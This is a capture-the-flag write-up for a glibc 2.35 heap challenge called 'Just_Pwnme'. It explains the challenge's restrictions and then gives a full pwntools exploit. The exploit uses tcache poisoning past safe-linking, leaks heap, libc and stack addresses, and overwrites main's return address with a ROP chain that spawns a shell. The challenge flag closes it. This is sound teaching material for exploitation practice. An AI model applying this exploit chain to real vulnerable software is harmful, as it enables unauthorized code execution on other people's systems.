

# Just_Pwnme

# Description


# Checksec

```
RELRO           STACK CANARY      NX            PIE
Full RELRO      Canary found      NX enabled    PIE enabled
```
Got table is not writable.
# Analysis

This is a typical heap challenge where you can allocate, edit, print and free chunk of the heap,<br>
```
$ ./chall
0) Allocate a chunk
1) Free a chunk
2) Print a chunk
3) Edit a chunk
4) Exit
[*] choice :
```
Except it had couple restrictions:<br>
 * The maximum size of allocation is limited to 0x100 == 256 bytes.<br>
 meaning we can't directly allocate a large chunk then free it to leak the main_arena pointer.<br>
 * The allocation pointer array has only 2 slots, so we can only keep track of 2 chunks at the time.<br>
 meaning we can't fill up t-cache to force using fast bin.<br>
 * The libc used is 2.35 which doesn't use free/malloc hooks, and uses safe-linking.<br>
 meaning we can't directly overwrite heap pointers, and there are no hook to overwrite to change the execution flow.<br>

On the good side, we had a UAF so we can edit/print a free chunk and we had unlimited number of allocations,<br>
and that's more than enough to pwn a binary :)<br>

# TL;DR
 * Defeat safe-linking by leaking the Heap address from the first t-cache entry.<br>
 * Use t-cache poisoning to create 2 overlapping chuncks in the heap.<br>
 * Overwrite the overlapped chunk's size to a large size, then free it to leak libc address.<br>
 * Use t-cache poisoning to allocate a chunk overlapping with environ pointer and leak stack address.<br>
 * Use t-cache poisoning to allocate a chunk overlapping with main return address on the stack.<br>
 * Overwrite main return address with a rop gadget to get a $hell.<br>

# Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("just-pwnme.bsides.shellmates.club", 443, ssl=True)
    return r


def allocate_chunk(r, index, size, data):
    r.recvuntil(b"choice : \n")
    r.sendline(b'0')
    r.recvuntil(b"Index : ")
    r.sendline(bytes(str(index), 'utf-8'))
    r.recvuntil(b"Size : ")
    r.sendline(bytes(str(size), 'utf-8'))
    r.recvuntil(b"Data : ")
    r.sendline(data)


def free_chunk(r, index):
    r.recvuntil(b"choice : \n")
    r.sendline(b'1')
    r.recvuntil(b"Index : ")
    r.sendline(bytes(str(index), 'utf-8'))


def print_chunk(r, index):
    r.recvuntil(b"choice : \n")
    r.sendline(b'2')
    r.recvuntil(b"Index : ")
    r.sendline(bytes(str(index), 'utf-8'))


def edit_chunk(r, index, data):
    r.recvuntil(b"choice : \n")
    r.sendline(b'3')
    r.recvuntil(b"Index : ")
    r.sendline(bytes(str(index), 'utf-8'))
    r.recvuntil(b"Data : ")
    r.send(data)


def main():
    r = conn()

    # Allocate two chunks
    allocate_chunk(r, 0, 16, b'aaa')
    allocate_chunk(r, 1, 16, b'aaa')

    # Free both chuncks into t-cache
    free_chunk(r, 0)
    free_chunk(r, 1)

    # Leak heap base from first t-cache chunk
    print_chunk(r, 0)
    heap = int.from_bytes(r.recv(numb=6).strip(), "little") << 12
    log.info(f"Leaking heap base address : {hex(heap)}")

    # Overwrite the forward pointer of the second t-cache chunk
    # (encoding the pointer to bypass safe-linking)
    heap_overlap = ((heap + 0x2c0) >> 12) ^ (heap+0x2b0)
    edit_chunk(r, 1, flat(p64(heap_overlap), b'\n'))

    # Allocate the first firs entry in t-cache
    allocate_chunk(r, 1, 16, b'aaa')

    # Allocate a chunk overlapping with the previously allocated chunk
    allocate_chunk(r, 1, 16, b'aaa')

    # Edit the size of the overlaping chunk to a large bin size
    edit_chunk(r, 0, flat(p64(0), p64(0x421)))

    # Create additional chunck to pass "prev chunck in-use"
    allocate_chunk(r, 0, 256, b'aaa')
    allocate_chunk(r, 0, 256, b'aaa')
    allocate_chunk(r, 0, 256, b'aaa')
    allocate_chunk(r, 0, 176, b'aaa')
    allocate_chunk(r, 0, 16, b'aaa')

    # Free the fake large chunk to leak main_arena address and calculate libc address
    free_chunk(r, 1)
    print_chunk(r, 1)
    libc.address = int.from_bytes(r.recv(numb=6).strip(), "little") - 0x219ce0
    log.info(f"Leaking libc base address : {hex(libc.address)}")

    # Allocate two chunks
    allocate_chunk(r, 0, 16, b'aaa')
    allocate_chunk(r, 1, 16, b'aaa')

    # Free both chuncks
    free_chunk(r, 0)
    free_chunk(r, 1)

    # Overwrite the forward pointer of the second t-cache chunk
    # (encoding the pointer to bypass safe-linking)
    environ = ((heap + 0x2d0) >> 12) ^ (libc.address + 0x221200-16)
    edit_chunk(r, 1, flat(p64(environ), b'\n'))

    # Allocate the first entry in t-cache
    allocate_chunk(r, 1, 16, b'aaa')

    # Allocate a chunk overlapping with the environ variable of the dynamic linker
    allocate_chunk(r, 1, 16, b'a'*15)

    # Leak the envp stack pointer and calculate the return address pointer of main
    print_chunk(r, 1)
    r.recvline()
    main_ret_addr = int.from_bytes(r.recv(numb=6).strip(), "little") - 328 + 32
    log.info(f"Leaking main return address : {hex(main_ret_addr)}")

    # Allocate two chunks
    allocate_chunk(r, 0, 64, b'aaa')
    allocate_chunk(r, 1, 64, b'aaa')

    # Free both chunks
    free_chunk(r, 0)
    free_chunk(r, 1)

    # Overwrite the forward pointer of the second t-cache chunk
    # (encoding the pointer to bypass safe-linking)
    main_ret_addr = ((heap + 0x340) >> 12) ^ (main_ret_addr)
    edit_chunk(r, 1, flat(p64(main_ret_addr), b'\n'))

    # Prepare a rop gadget to execute "system("/bin/sh\0");"
    rop = ROP(libc)
    binsh = next(libc.search(b"/bin/sh\x00"))
    ret = rop.find_gadget(['ret']).address
    system = libc.symbols['system']
    poprdi = rop.find_gadget(["pop rdi", "ret"]).address
    payload = flat(main_ret_addr, ret, poprdi, binsh, system)

    # Allocate the first entry in t-cache
    allocate_chunk(r, 1, 64, b'aaa')

    # Alocate a chunk overlapping with the main return address in the stack
    allocate_chunk(r, 1, 64, payload)

    # Exit to make main return and get a shell
    r.recvuntil(b"choice : \n")
    r.sendline(b'4')
    log.info("Enjoy your $hell ;)")
    r.interactive()


if __name__ == "__main__":
    main()
```
# Flag

```
shellmates{S3E_Y0U_DONt_n33d_H00Ks_TO_pWN_the_HeAP}
```
